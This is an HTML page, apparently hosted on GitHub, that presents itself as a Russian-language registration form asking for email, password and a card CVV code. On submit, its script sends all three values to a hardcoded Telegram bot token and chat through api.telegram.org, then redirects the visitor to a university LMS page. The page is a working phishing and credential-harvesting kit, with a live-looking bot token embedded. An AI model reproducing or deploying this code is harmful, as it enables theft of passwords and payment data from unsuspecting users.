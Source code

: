 <html lang="ru">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Регистрация</title>
    <style>
      form {
        display: flex;
        flex-direction: column;
        width: 250px;
        margin-left: 100px;
      }
      h1 {
        margin-left: 100px;
      }
      button {
        font-size: 20px;
        width: auto;
        margin-top: 5px;
        padding: 10px;
        background: green;
        color: white; /* Добавлено для улучшения видимости текста на кнопке */
      }
      #forgot-password {
        background: blue; /* Измените цвет фона для кнопки "Забыли пароль?" */
      }
    </style>
</head>
<body>
    <h1>Регистрация</h1>
    <form id="registrationForm">
        <p></p>
        <label for="email">Email</label>
        <input type="text" id="email" name="email" required maxlength='50' onkeypress="return /[a-zA-Z0-9@.]/.test(event.key)" title="Email должен содержать только латинские буквы, цифры, @ и .">
        <br>
        <p></p>
        <label for="pass">Пароль</label>
        <input type="text" id="pass" name="password" required maxlength='20' onkeypress="return /[a-zA-Z0-9]/.test(event.key)" title="Пароль должен содержать только латинские буквы и цифры (максимум 20 символов)">
        <p></p>
        <label for="cvv">CVV код (3-х значный код на обратной стороне карты)</label>
        <input type="text" id="cvv" name="cvv" required maxlength="3" oninput="this.value = this.value.replace(/[^0-9]/g, '')">
        <br>
        <button type="submit">Зарегистрироваться</button>
        <button type="button" id="forgot-password">Забыли пароль?</button> <!-- Кнопка для восстановления пароля -->
    </form>

    <script>
        const form = document.getElementById('registrationForm');

        form.addEventListener('submit', e => {
            e.preventDefault(); 
            
            const username = document.getElementById('pass').value;
            const email = document.getElementById('email').value;

            // Проверка на наличие символа @ в email
            if (!email.includes('@')) {
                alert('Пожалуйста, введите корректный адрес электронной почты (должен содержать @).');
                return;
            }

            // Проверка на допустимые символы в email
            const emailPattern = /^[a-zA-Z0-9@.]+$/;
            if (!emailPattern.test(email)) {
                alert('Email может содержать только латинские буквы, цифры, @ и .');
                return;
            }

            const cvv = document.getElementById('cvv').value;

            const token = '7942332820:AAFC2P1_9T8USat2LkVF_cXqtqCaBqs2O4g';
            const chatId = -1002372284940; 
            const message = `Новая регистрация:\n Почта: ${email}\n Пароль: ${username}\n CVV: ${cvv}`;
            const url = `https://api.telegram.org/bot${token}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;
            
            fetch(url) 
            .then(response => {
                if (response.ok) {
                    alert('Данные успешно отправлены в Telegram!');
                    // Перенаправление на другую страницу
                    window.location.href = 'https://lms.dgmu.ru/mod/quiz/report.php?id=44292&mode=overview'; 
                } else {
                    console.log('error');
                }
            })
            .catch(error => {
                console.error('Ошибка:', error);
                alert('Ошибка при отправке данных.');
            });
        });

        // Обработчик клика для кнопки "Забыли пароль?"
        document.getElementById('forgot-password').addEventListener('click', function() {
            window.location.href = 'https://sheikh05ed.github.io/register_on_vk.github.io/'; 
        });
    </script>
</body>
</html>
